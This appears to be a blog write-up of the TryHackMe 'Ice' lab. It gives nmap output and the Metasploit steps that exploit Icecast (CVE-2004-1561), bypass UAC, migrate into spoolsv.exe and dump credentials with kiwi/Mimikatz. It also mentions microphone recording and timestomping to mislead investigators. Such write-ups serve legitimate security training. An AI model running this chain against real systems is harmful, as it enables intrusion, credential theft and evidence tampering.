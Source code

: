 ```yaml
---
title: Ice
date: 2020-05-26
hero: /images/content/posts/try-hack-me/ice.png
categories:
- try-hack-me
tags:
- windows
- nmap
- mimikatz
- CVE-2004-1561
- metasploit
---
```


Ice is the extension to the [Blue](https://stefantobler.com/posts/try-hack-me/blue) room. In this room we learn more about windows recon, exploitation and escalation. This box uses a vulnerable service called Icecast which allows us to access the machine using metasploit, then elevate those privileges by abusing a spool process.

## Tools

* nmap
* metasploit

## Walkthrough

First things first. Nmap scan. I used the command `sudo nmap -sV -A -sS $IP` then piped the output to `nmap/nmap.txt`. 

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-26 18:31 EDT
Nmap scan report for 10.10.220.176
Host is up (0.13s latency).
Not shown: 989 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
5357/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
8000/tcp  open  http         Icecast streaming media server
|_http-title: Site doesn't have a title (text/html).
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49161/tcp open  msrpc        Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=5/26%OT=135%CT=1%CU=40177%PV=Y%DS=2%DC=T%G=Y%TM=5ECD99
OS:36%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10D%TI=I%CI=I%II=I%SS=S%TS
OS:=7)SEQ(SP=107%GCD=1%ISR=10D%TI=I%CI=I%TS=7)OPS(O1=M508NW8ST11%O2=M508NW8
OS:ST11%O3=M508NW8NNT11%O4=M508NW8ST11%O5=M508NW8ST11%O6=M508ST11)WIN(W1=20
OS:00%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)ECN(R=Y%DF=Y%T=80%W=2000%O=M5
OS:08NW8NNS%CC=N%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80
OS:%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q
OS:=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A
OS:=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%D
OS:F=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL
OS:=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h40m00s, deviation: 2h53m12s, median: 0s
|_nbstat: NetBIOS name: DARK-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:00:58:2b:54:ae (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Dark-PC
|   NetBIOS computer name: DARK-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-05-26T17:33:15-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-05-26T22:33:15
|_  start_date: 2020-05-26T22:29:10

TRACEROUTE (using port 143/tcp)
HOP RTT       ADDRESS
1   232.30 ms 10.9.0.1
2   232.43 ms 10.10.220.176

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 107.56 seconds
```

From the results it looks like there is a webserver open on port 8000 and port 5357. On port 800 there is an interesting software called Icecast running. Let's do some research about this. It looks like Icecast is a software that allows a computer to be a media server.

To learn about the vulnerability this machine has TryHackMe gave us a big hint. It told us that there is a vulnerability with the level 7.5 on cvedetails.com. There are two exploits with this level on cvedetails that deal with Icecast. The one we are looking for is CVE-2004-1561. Its type is execute code overflow. Now that we know what exploit this machine might fall victim too let's fire up metasploit and load out module in. To do this type `msfconsole` then `search icecast` and finally `use 0` because this exploit is the only on in metasploit for Icecast. Next we will use `show options` to see what we need in order to execute the exploit. Turns out the required option is RHOSTS. Now let's set the RHOSTS to our target IP. Use the command `set RHOSTS 10.10.220.176`. Finally lets run the exploit! Use the `exploit` command.

Now that we have a foothold we can being escalating our privileges. First TryHackMe asks what shell we are using. And for this exploit metasploit is nice enough to throw us into the `meterpreter` shell. Now we can take a look at the processes running on the machine. To do this we can run the command `ps` to see the current processes. Turns out that a user named 'Dark' is running Icecast. Now the build of Windows that this machine is running is 7601. I just took a look at my nmap scan to figure this out. We can also use the command `sysinfo`. This also tells us that the machine is on an 'x64' architecture. Now let's run `run post/multi/recon/local_exploit_suggester` which will suggest us some exploits to run against this machine. After running these are our results:

```
[+] 10.10.220.176 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.220.176 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 10.10.220.176 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.220.176 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.220.176 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.220.176 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.220.176 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.220.176 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```

TryHackMe wants us to use the first one. Suspend the current session using CTRL-Z then use the command `use exploit/windows/local/bypassuac_eventvwr` to load the exploit. Then set the session to 1 using `set SESSION 1` (This might be different depending on how you used metasploit. If you need to check use the command `sessions`). Now that we have set the session we need to set the listener ip. We can type `ip addr` in the command line to get out TryHackMe address. Your TryHackMe IP should be the one under the `tun0` section. You can also check this in the access tab on the website. In my case my internal IP is `10.9.12.124`. Now run the exploit and connect to the newly created session using the command `sessions #`. Now that we have connected we can use the command `getprivs` to see what processes we have access to. One of these process should allow us to take ownership of files. Based on the list output from `getprivs` it looks like 'SeTakeOwnershipPrivilege' is what we are looking for. Now that we know how to gain access to what we want we need to do it.

Now that we are on the machine we are running on a process that is being run under the 'Dark' user. However even though we have escalated privileges as 'NT AUTHORITY\SYSTEM' we are not in an escalated process. To get to an escalated process we can use the `ps` command to see the processes running. Then we can migrate to a process that is running as NT AUTHORITY\SYSTEM. For this box we are going to pick the `spoolsv.exe` process because is it running on the same architecture that the lsass service is running. lsass is our target. Now let's migrate. On my box the `spoolsv.exe` process id is 1400 so I will use the command `migrate 1400` to move to that process. Next I am going to load in the meterpreter extension Mimikatz using the command `load kiwi`, kiwi being the Minikatz version. Minikatz will allow us to dump the passwords. To get the credentials use the command `creds_all`. We can get all the hashes using the command `hashdump`. We can also watch the user's screen using `screenshare` or listen to their microphone using the command `record_mic`. We can also change time stamps using the command `timestomp`. This could be used to confuse investigators after an attack. If we wanted to we could also create a 'golden ticket' with Minikatz that allows us to easily authenticate other users on the system.
